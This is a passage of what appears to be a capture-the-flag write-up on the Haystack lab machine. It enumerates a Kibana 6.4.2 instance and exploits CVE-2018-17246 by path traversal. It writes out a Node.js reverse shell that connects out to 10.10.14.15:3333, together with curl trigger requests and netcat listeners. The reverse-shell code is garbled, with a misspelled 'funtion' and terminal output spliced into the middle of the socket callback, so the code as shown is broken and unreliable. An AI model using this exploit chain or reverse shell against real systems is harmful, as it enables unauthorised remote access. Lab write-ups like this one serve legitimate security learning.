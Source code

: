 ```bash
http://127.0.0.1:5601 [200 OK] Country[RESERVED][ZZ], IP[127.0.0.1], Kibana, Script, UncommonHeaders[kbn-name,kbn-xpack-sig]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :--------: | :-----: | :----: |
| Angular.js | 1.6.9 | - |
| Node.js | - | - |
| PHP | - | - |
| ElasticSearch | - | - |
| Kibana | - | - |
| D3 | 3.5.6| - |

#### Web content fuzzing
Performing wfuzz against a proxychain tunnel is not a good idea.

#### Manual enumeration
If we look at the `http://127.0.0.1:5601/app/kibana#/management?_g=()` page, we can see the version of kibana: `6.4.2`
Then, if we look for exploits over Kibana 6.4.2, we find, again, the [CVE-2018-17246](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17246), but the difference is that we can now upload js files into the machine.

### User shell via CVE-2018-17246
To do this, we must create the script `/tmp/shell.js`:
```js
(funtion(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(3333, "10.10.14.15", function(){sh-4.2$ whoami
kibana
sh-4.2$ hostname -I
10.10.10.115 dead:beef::250:56ff:feb9:8fb7 
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
And access it through the url `http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js`
```bash
# Trigger console
[security@haystack ~]$ curl http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js
# Listening console
❯ nc -nlvp 3333
```
But it didn't work, this could be due to the two users having their own tmp, let's store the script in shared memory, `/dev/shm`:
```bash
# Victim terminal
[security@haystack ~]$ mv /tmp/shell.js /dev/shm/
[security@haystack ~]$ curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../dev/shm/shell.js'
# My terminal
❯ nc -nlvp 3333
```